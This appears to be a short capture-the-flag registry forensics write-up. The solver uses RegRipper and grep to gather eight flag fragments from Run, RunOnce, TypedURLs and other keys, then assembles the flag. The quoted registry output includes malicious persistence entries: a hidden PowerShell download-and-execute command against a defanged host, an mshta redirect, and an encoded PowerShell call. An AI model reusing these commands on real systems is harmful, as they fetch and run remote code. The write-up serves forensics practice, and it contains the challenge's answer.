





2025-10-14
🔍 Beyblade


saw fragments/pieces/shards/sections/whatever of the flag

regripper -r beyblade -a > a, and grep for all fragments

1. **Piece 1/8: `47cb`** - `Run` key: `flag_value_1_of_8-47cb`
2. **Piece 2/8: `5cd4`** - `RunOnce` key: `hash-value-2-8_5cd4`
3. **Piece 3/8: `6d7b`** - `TypedURLs`: `chunk+3of8:6d7b`
4. **Piece 4/8: `b34a`** - `RunMRU`: `piece:4/8-b34a`
5. **Piece 5/8: `0d9c`** - `TypedPaths`: `fragment-5_of_8-0d9c`
6. **Piece 6/8: `315a`** - `apppaths`: `wmiprvse.exe ... -tag shard(6/8)-315a` ✓
7. **Piece 7/8: `99bb`** - `muicache`: `component#7of8-99bb` ✓
8. **Piece 8/8: `58de`** - `Terminal Server Client`: `segment-8-of-8=58de`
Concatenating all 8 pieces
47cb + 5cd4 + 6d7b + b34a + 0d9c + 315a + 99bb + 58de
= 47cb5cd46d7bb34a0d9c315a99bb58de
echo -n "flag_value_1_of_8-47cb_hash-value-2-8_5cd4_chunk+3of8:6d7b_piece:4/8-b34a_fragment-5_of_8-0d9c_6_of_8-9f1e_7_of_8-a2c0_segment-8-of-8=58de" | md5sum

grep -a -iE 'flag_value|hash-value|chunk|piece|fragment|shard|component|segment' A
wmiprvse.exe - C:\Windows\System32\wmiprvse.exe /k netsvcs -tag shard(6/8)-315a
C:\Windows\System32\mmc.exe (Microsoft Management Console - component#7of8-99bb)
Windows Update Monitor - powershell -nop -w hidden -c iwr http://cdn.update-catalog[.]com/agent?v=1 -UseBasicParsing|iex ; # flag_value_1_of_8-47cb
OneDrive Setup - cmd /c start /min mshta about:<script>location='http://telemetry.sync-live[.]net/bootstrap?stage=init¬e=hash-value-2-8_5cd4'</script>
r1 powershell.exe -e JABNAE0A; ## piece:4/8-b34a
UsernameHint: administrator|segment-8-of-8=58de
url2 C:\Users\Public\fragment-5_of_8-0d9c
url1 -> http://auth.live-sync[.]net/login?session=chunk+3of8:6d7b
1 - LastWrite Time 2025-09-27 19:16:09Z
OneDrive - "C:\Users\User\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background
Windows Update Monitor - powershell -nop -w hidden -c iwr http://cdn.update-catalog[.]com/agent?v=1 -UseBasicParsing|iex ; # flag_value_1_of_8-47cb
MicrosoftEdgeAutoLaunch_C46CFC0629905CC775E70B50EA8A519C - "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --no-startup-window --win-session-start
2 - Software\Microsoft\Windows\CurrentVersion\RunOnce
LastWrite Time 2025-09-27 19:16:23Z
OneDrive Setup - cmd /c start /min mshta about:<script>location='http://telemetry.sync-live[.]net/bootstrap?stage=init¬e=hash-value-2-8_5cd4'</script>
3 - Software\Microsoft\Internet Explorer\TypedURLs
LastWrite Time 2025-09-27 19:16:23Z
url1 -> http://auth.live-sync[.]net/login?session=chunk+3of8:6d7b
4 - LastWrite Time 2025-09-27 19:16:23Z
MRUList =
r1 powershell.exe -e JABNAE0A; ## piece:4/8-b34a
5 - url1 C:\
url2 C:\Users\Public\fragment-5_of_8-0d9c
----------------------------------------
typedurls v.20200526
6 - 2025-09-27 19:16:23Z
wmiprvse.exe - C:\Windows\System32\wmiprvse.exe /k netsvcs -tag shard(6/8)-315a
7 - Software\Microsoft\Windows\ShellNoRoam\MUICache
LastWrite Time 2025-09-27 19:16:23Z
C:\Windows\System32\mmc.exe (Microsoft Management Console - component#7of8-99bb)
Local Settings\Software\Microsoft\Windows\Shell\MUICache not found.
8 - fileshare.local LastWrite time: 2025-09-27 19:16:23Z
UsernameHint: administrator|segment-8-of-8=58de
47cb - Run key
5cd4 - RunOnce key
6d7b - TypedURLs
b34a - RunMRU
0d9c - TypedPaths
315a - apppaths (wmiprvse.exe line)
99bb - muicache (mmc.exe line)
58de - tsclient
flag{47cb5cd46d7bb34a0d9c315a99bb58de}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}